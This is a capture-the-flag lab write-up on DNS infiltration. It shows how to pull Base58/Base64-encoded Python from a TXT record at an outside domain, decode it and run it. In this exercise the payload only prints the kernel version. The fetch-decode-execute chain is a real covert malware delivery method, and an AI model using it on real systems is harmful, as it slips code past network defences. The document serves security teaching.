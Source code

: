 
## DNS Infiltration - Practice

- Check the task file:

```bash
user@user1:~/challenges/infiltration$ cat TASK 
For this TASK we will be requesting a TXT Record from my public domain name.
Here is the information needed to complete this challenge:

My Domain Name: badbaddoma.in
Request TXT Record from this subdomain: code
Save the text value to a python file
Run the ~/dns-exfil-infil/packetySimple.py to decode the text
Run the program: python3 [your-file-name].py
Take a note of the output and answer the question in the "DNS Infiltration - Practice" section.
```

### Enter the output from the executed python file
- **Answer:** 4.4.0-186-generic
- **Steps to Reproduce:** 

- Request the TXT Record for `code.badbaddoma.in`.
- Store the required data in the file using `grep` and `cut`.

```bash
user@user1:~/challenges/infiltration$ nslookup -type=TXT code.badbaddoma.in
Server:		10.0.0.2
Address:	10.0.0.2#53

Non-authoritative answer:
code.badbaddoma.in	text = "YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44"

Authoritative answers can be found from:

user@user1:~/challenges/infiltration$ nslookup -type=TXT code.badbaddoma.in | grep Yee | cut -d \" -f2 > bad.py

user@user1:~/challenges/infiltration$ cat bad.py 
YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44

user@user1:~/challenges/infiltration$ python3 ~/dns-exfil-infil/packetySimple.py
Filename: bad.py
[+] Reading from file...
[+] Base58 decoded.
[+] Base64 decoded.
[+] Done, bad.py is decoded.

user@user1:~/challenges/infiltration$ cat bad.py 
import os; print(os.uname()[2])

user@user1:~/challenges/infiltration$ python3 bad.py 
4.4.0-186-generic
```

---